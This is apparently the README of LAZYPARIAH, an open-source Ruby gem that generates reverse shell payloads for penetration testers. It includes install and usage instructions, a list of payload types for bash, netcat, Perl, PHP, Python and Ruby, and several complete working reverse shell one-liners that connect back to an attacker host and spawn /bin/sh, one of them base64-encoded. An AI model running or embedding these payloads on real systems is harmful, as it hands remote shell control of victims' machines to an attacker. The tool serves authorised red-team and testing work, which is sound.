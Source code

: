 # LAZYPARIAH
A tool for generating reverse shell payloads on the fly.

## Description
LAZYPARIAH is a simple tool for generating a range of reverse shell payloads on the fly.

This tool is intended to be used only in authorised circumstances by qualified penetration testers, security researchers and red team professionals. Before downloading, installing or using this tool, ensure that you understand the relevant laws in your jurisdiction. The author of this tool does not endorse the usage of this tool for illegal or unauthorised purposes.

## Demonstration
![Alt text](./lazypariah-0.2.0.svg)
<img src="./lazypariah-0.2.0.svg">

## Dependencies
* Ruby >= 2.7.1 (LAZYPARIAH has not been tested on previous versions of Ruby)

## Installation
LAZYPARIAH can be installed as follows:
```
gem install lazypariah
```

## Usage
```
Usage:  lazypariah [OPTIONS] <PAYLOAD TYPE> <ATTACKER HOST> <ATTACKER PORT>
Note:   <ATTACKER HOST> may be an IPv4 address, IPv6 address or hostname.

Example:        lazypariah -u python3_b64 10.10.14.4 1555
Example:        lazypariah python2_c malicious.local 1337

Valid Payloads:
    bash_tcp
    nc
    nc_pipe
    perl
    perl_c
    php_fd_3
    php_fd_3_c
    php_fd_3_tags
    php_fd_4
    php_fd_4_c
    php_fd_4_tags
    php_fd_5
    php_fd_5_c
    php_fd_5_tags
    php_fd_6
    php_fd_6_c
    php_fd_6_tags
    python
    python2_b64
    python2_c
    python3_b64
    python3_c
    python_b64
    python_c
    ruby
    ruby_b64
    ruby_c

Valid Options:
    -h, --help                       Display help text and exit.
    -l, --license                    Display license information and exit.
    -u, --url                        URL-encode the payload.
    -v, --version                    Display version information and exit.
```

## Output Examples
Output of command `lazypariah -u python3_b64 10.10.14.4 1337`:
```
echo%20aW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjEwLjEwLjE0LjQiLDEzMzcpKTtvcy5kdXAyKHMuZmlsZW5vKCksMCk7IG9zLmR1cDIocy5maWxlbm8oKSwxKTsgb3MuZHVwMihzLmZpbGVubygpLDIpO3A9c3VicHJvY2Vzcy5jYWxsKFsiL2Jpbi9zaCIsIi1pIl0pOw%3D%3D%20%7C%20base64%20-d%20%7C%20python3
```
Output of command `lazypariah python2_c 10.10.14.4 1337`:
```
python2 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.4",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
Output of command `lazypariah php_fd_3_tags 10.10.14.4 1337`:
```
<?php $sock=fsockopen("10.10.14.4",1337);exec("/bin/sh -i <&3 >&3 2>&3");?>
```

## Author
Copyright (C) 2020 Peter Bruce Funnell

## License
This program is free software: you can redistribute it and/or modify it under the terms of the GNU General Public License as published by the Free Software Foundation, either version 3 of the License, or (at your option) any later version.

This program is distributed in the hope that it will be useful, but WITHOUT ANY WARRANTY; without even the implied warranty of MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the GNU General Public License for more details.

You should have received a copy of the GNU General Public License along with this program.  If not, see <https://www.gnu.org/licenses/>

## Support
If you found this project useful and would like to encourage me to continue making open source software, please consider making a donation via the following link:

https://www.buymeacoffee.com/peterfunnell

Donations in Bitcoin (BTC) are also very welcome. My BTC wallet address is as follows:

```
3EdoXV1w8H7y7M9ZdpjRC7GPnX4aouy18g
```

